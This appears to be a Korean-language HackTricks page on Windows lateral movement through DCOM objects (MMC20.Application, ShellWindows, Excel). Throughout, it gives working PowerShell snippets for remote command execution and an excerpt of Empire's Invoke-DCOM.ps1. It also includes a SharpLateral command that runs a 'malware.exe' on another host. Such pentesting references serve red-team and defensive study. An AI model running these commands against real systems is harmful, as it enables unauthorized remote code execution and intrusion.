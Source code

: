# DCOM Exec

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## MMC20.Application

**이 기술에 대한 자세한 정보는 [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)의 원본 게시물을 확인하세요.**

분산 구성 요소 개체 모델(DCOM) 개체는 개체와의 네트워크 기반 상호 작용을 위한 흥미로운 기능을 제공합니다. Microsoft는 DCOM 및 구성 요소 개체 모델(COM)에 대한 포괄적인 문서를 제공하며, DCOM에 대한 문서는 [여기](https://msdn.microsoft.com/en-us/library/cc226801.aspx)에서, COM에 대한 문서는 [여기](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx)에서 확인할 수 있습니다. DCOM 응용 프로그램 목록은 PowerShell 명령을 사용하여 검색할 수 있습니다:
```bash
Get-CimInstance Win32_DCOMApplication
```
COM 객체인 [MMC Application Class (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx)는 MMC 스냅인 작업의 스크립팅을 가능하게 합니다. 특히, 이 객체는 `Document.ActiveView` 아래에 `ExecuteShellCommand` 메서드를 포함하고 있습니다. 이 메서드에 대한 더 많은 정보는 [여기](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx)에서 확인할 수 있습니다. 실행해 보세요:

이 기능은 DCOM 애플리케이션을 통해 네트워크에서 명령을 실행하는 것을 용이하게 합니다. 관리자로서 DCOM과 원격으로 상호작용하기 위해 PowerShell을 다음과 같이 사용할 수 있습니다:
```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("<DCOM_ProgID>", "<IP_Address>"))
```
이 명령은 DCOM 애플리케이션에 연결하고 COM 객체의 인스턴스를 반환합니다. 그런 다음 ExecuteShellCommand 메서드를 호출하여 원격 호스트에서 프로세스를 실행할 수 있습니다. 이 프로세스는 다음 단계를 포함합니다:

Check methods:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com.Document.ActiveView | Get-Member
```
RCE 얻기:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com | Get-Member

# Then just run something like:

ls \\10.10.10.10\c$\Users
```
## ShellWindows & ShellBrowserWindow

**이 기술에 대한 자세한 정보는 원본 게시물을 확인하세요 [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)**

**MMC20.Application** 객체는 명시적인 "LaunchPermissions"가 부족하여 기본적으로 관리자가 접근할 수 있는 권한으로 설정되어 있습니다. 추가 세부정보는 [여기](https://twitter.com/tiraniddo/status/817532039771525120)에서 확인할 수 있으며, 명시적인 Launch Permission이 없는 객체를 필터링하기 위해 [@tiraniddo](https://twitter.com/tiraniddo)의 OleView .NET 사용을 권장합니다.

명시적인 Launch Permissions가 부족한 두 개의 특정 객체인 `ShellBrowserWindow`와 `ShellWindows`가 강조되었습니다. `HKCR:\AppID\{guid}` 아래에 `LaunchPermission` 레지스트리 항목이 없다는 것은 명시적인 권한이 없음을 의미합니다.

###  ShellWindows
ProgID가 없는 `ShellWindows`의 경우, .NET 메서드 `Type.GetTypeFromCLSID`와 `Activator.CreateInstance`를 사용하여 AppID를 통해 객체 인스턴스를 생성할 수 있습니다. 이 과정은 OleView .NET을 활용하여 `ShellWindows`의 CLSID를 검색합니다. 인스턴스화된 후에는 `WindowsShell.Item` 메서드를 통해 상호작용이 가능하며, `Document.Application.ShellExecute`와 같은 메서드 호출로 이어집니다.

객체를 인스턴스화하고 원격으로 명령을 실행하기 위한 PowerShell 명령의 예가 제공되었습니다:
```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.Item()
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```
### Lateral Movement with Excel DCOM Objects

Lateral movement은 DCOM Excel 객체를 악용하여 달성할 수 있습니다. 자세한 정보는 [Cybereason's blog](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom)에서 DCOM을 통한 lateral movement를 위한 Excel DDE 활용에 대한 논의를 읽는 것이 좋습니다.

Empire 프로젝트는 DCOM 객체를 조작하여 원격 코드 실행(RCE)을 위해 Excel을 활용하는 PowerShell 스크립트를 제공합니다. 아래는 [Empire's GitHub repository](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1)에서 제공되는 스크립트의 일부로, RCE를 위해 Excel을 악용하는 다양한 방법을 보여줍니다:
```powershell
# Detection of Office version
elseif ($Method -Match "DetectOffice") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$isx64 = [boolean]$obj.Application.ProductCode[21]
Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
# Registration of an XLL
elseif ($Method -Match "RegisterXLL") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$obj.Application.RegisterXLL("$DllPath")
}
# Execution of a command via Excel DDE
elseif ($Method -Match "ExcelDDE") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$Obj.DisplayAlerts = $false
$Obj.DDEInitiate("cmd", "/c $Command")
}
```
### Lateral Movement을 위한 자동화 도구

이 기술을 자동화하기 위해 두 가지 도구가 강조됩니다:

- **Invoke-DCOM.ps1**: 원격 머신에서 코드를 실행하기 위한 다양한 방법의 호출을 단순화하는 Empire 프로젝트에서 제공하는 PowerShell 스크립트입니다. 이 스크립트는 Empire GitHub 리포지토리에서 접근할 수 있습니다.

- **SharpLateral**: 원격으로 코드를 실행하기 위해 설계된 도구로, 다음 명령어와 함께 사용할 수 있습니다:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## Automatic Tools

* Powershell 스크립트 [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1)는 다른 머신에서 코드를 실행하는 모든 주석 처리된 방법을 쉽게 호출할 수 있게 해줍니다.
* [**SharpLateral**](https://github.com/mertdas/SharpLateral)도 사용할 수 있습니다:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## References

* [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)
* [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
